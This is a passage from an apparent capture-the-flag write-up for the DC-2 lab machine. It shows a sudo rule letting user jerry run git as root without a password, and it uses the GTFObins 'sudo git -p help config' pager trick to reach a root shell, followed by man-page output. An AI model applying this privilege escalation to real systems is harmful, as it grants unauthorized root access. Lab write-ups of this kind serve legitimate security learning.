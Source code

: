 ```bash
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git

```
Well lucky us, [GTFObins](https://gtfobins.github.io/gtfobins/git/#sudo) has git in their list for privilege escalation.
First we should start the git with the default pager, which is likely `less`. This gives us the posibility to gain a root shell.
```bash
jerry@DC-2:~$ sudo git -p help config
GIT-CONFIG(1)                                                                                                 Git Manual                                                                                                 GIT-CONFIG(1)



NAME
       git-config - Get and set repository or global options

SYNOPSIS
       git config [<file-option>] [type] [-z|--null] name [value [value_regex]]
       git config [<file-option>] [type] --add name value
       git config [<file-option>] [type] --replace-all name value [value_regex]
       git config [<file-option>] [type] [-z|--null] --get name [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-all name [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-regexp name_regex [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-urlmatch name URL
       git config [<file-option>] --unset name [value_regex]
       git config [<file-option>] --unset-all name [value_regex]
       git config [<file-option>] --rename-section old_name new_name
       git config [<file-option>] --remove-section name
       git config [<file-option>] [-z|--null] -l | --list
       git config [<file-option>] --get-color name [default]
       git config [<file-option>] --get-colorbool name [stdout-is-tty]
       git config [<file-option>] -e | --edit


DESCRIPTION
       You can query/set/replace/unset options with this command. The name is actually the section and the key separated by a dot, and the value will be escaped.

       Multiple lines can be added to an option by using the --add option. If you want to update or unset an option which can occur on multiple lines, a POSIX regexp value_regex needs to be given. Only the existing values that
       match the regexp are updated or unset. If you want to handle the lines that do not match the regex, just prepend a single exclamation mark in front (see also the section called “EXAMPLES”).

       The type specifier can be either --int or --bool, to make git config ensure that the variable(s) are of the given type and convert the value to the canonical form (simple decimal number for int, a "true" or "false" string
       for bool), or --path, which does some path expansion (see --path below). If no type specifier is passed, no checks or transformations are performed on the value.

       When reading, the values are read from the system, global and repository local configuration files by default, and options --system, --global, --local and --file <filename> can be used to tell the command to read from only
       that location (see the section called “FILES”).

```